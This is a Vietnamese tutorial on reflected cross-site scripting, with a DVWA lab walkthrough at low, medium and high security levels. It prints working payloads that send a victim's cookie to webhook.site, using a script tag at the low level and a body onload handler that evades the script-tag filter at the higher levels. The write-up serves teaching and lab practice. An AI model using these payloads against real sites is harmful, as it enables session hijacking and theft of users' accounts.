









# What is reflected cross-site scripting?

Reflected [XSS] (https://owasp.org/www-community/attacks/xss/) xảy ra khi kẻ tấn công chèn mã thực thi của trình duyệt vào một phản hồi HTTP duy nhất. Cuộc tấn công được chèn không được lưu trữ trong chính ứng dụng; nó không liên tục và chỉ ảnh hưởng đến những người dùng mở liên kết được tạo độc hại hoặc trang web của bên thứ ba. Chuỗi tấn công được bao gồm như một phần của URI được tạo độc hại hoặc các tham số HTTP, được ứng dụng xử lý không đúng cách và trả về cho nạn nhân.

Reflected XSS là loại tấn công XSS thường gặp nhất được tìm thấy trong tự nhiên. Các cuộc tấn công Reflected XSS cũng được gọi là các cuộc tấn công XSS không liên tục và vì tải trọng tấn công được phân phối và thực hiện thông qua một yêu cầu và phản hồi duy nhất nên chúng cũng được gọi là XSS bậc nhất hoặc loại 1.

Khi một ứng dụng web dễ bị tấn công theo loại này, ứng dụng sẽ chuyển dữ liệu đầu vào chưa được xác thực được gửi qua các yêu cầu trở lại máy khách. Modus operandi phổ biến của cuộc tấn công bao gồm một bước thiết kế, trong đó kẻ tấn công tạo và kiểm tra một URI vi phạm, một bước kỹ thuật xã hội, trong đó cô ta thuyết phục nạn nhân tải URI này trên trình duyệt của họ và cuối cùng thực thi mã vi phạm bằng trình duyệt của nạn nhân.

Mã của kẻ tấn công thường được viết bằng ngôn ngữ JavaScript, nhưng các ngôn ngữ lập trình khác cũng được sử dụng, ví dụ: ActionScript và VBScript. Kẻ tấn công thường lợi dụng các lỗ hổng này để cài đặt trình ghi phím, đánh cắp cookie của nạn nhân, thực hiện hành vi trộm cắp clipboard và thay đổi nội dung của trang (ví dụ: liên kết tải xuống).

Một trong những khó khăn chính trong việc ngăn chặn các lỗ hổng XSS là mã hóa ký tự phù hợp. Trong một số trường hợp, máy chủ web hoặc ứng dụng web không thể lọc một số mã hóa ký tự, vì vậy, ví dụ, ứng dụng web có thể lọc ra `<script>`, nhưng có thể không lọc được `%3cscript%3e` chỉ bao gồm một mã hóa thẻ khác.

# Lab: Khai thác lỗi Reflected cross-site scripting (Reflected XSS) trên DVWA

1. Mức độ *Low-level-security*

   

   Ta thấy giao diện hiển thị một form text để nhập input vào. 

   
   
   Giả sử khi nhập vào chuỗi `luckyman` thì thấy được giao diện trả về có chứa từ *luckyman* => có dấu hiệu bị reflected, có thể khai thác **reflected xss**

   Thử nhập vào 1 đoạn mã 
   ```js
   <script>alert(1)</script> 
   ```

   

   Ta có thể chắc chắn rằng có thể chèn mã vào vị trí này được. Trong bài lab này chúng ta sẽ sử dụng trang web là [Webhook.site](), khi đoạn mã script độc hại bị kích hoạt thì nó sẽ gửi dữ liệu về trang web này. Đoạn mã tôi sử dụng có dạng như sau
   ```js
    <script>
    new Image().src = "https://webhook.site/your-id?c=" + document.cookie;
    </script>
   ```

   Bây giờ tôi chỉ việc truy cập và *Webhook.site* và thay thế đoạn URL có chứa  ID trang web tự cấp khi truy cập  vào đoạn mã bên trên.

   Qua trang *Webhook.site*, ta lấy được cookie của máy nạn nhân

   

2. Mức độ *Medium-level-security*

   

   Ở mức độ này ta thấy rằng đã có sự loại bỏ thẻ `<script>` trong khâu lập trình, dẫn đến không thể đưa đoạn mã khai thác chứa thẻ `<script>` lên mã nguồn trang web được, vậy ta thử với thẻ khác thì sao ???

   ```js
   <body onload="alert(1)">
   ``` 
   

   Như vậy là ta có thể khai thác thông qua thẻ `<body>`

   Ta lại sử dụng *Webhook.site* với đoạn mã sau

   ```js
   <body onload="new Image().src='https://webhook.site/f6a89df6-9e6c-4641-89b7-8315bbfc4055?c='+document.cookie">
   ```
   
   

   > Kết quả là ta vẫn lấy được thông tin cookie của người dùng.

3. Mức độ *High-level-security*

   Ở mức độ này, ta thấy về cơ bản nó vẫn loại bỏ thẻ `<script>`, ta thử các bước giống với mức độ medium-level-security đó là dùng thẻ `<body>`

   

   Lại dùng *Webhook.site* với đoạn mã tương tự mức medium

   ```js
   <body onload="new Image().src='https://webhook.site/f6a89df6-9e6c-4641-89b7-8315bbfc4055?c='+document.cookie">
   ```

   

   > Kết quả là ta vẫn thu được cookie của người dùng 


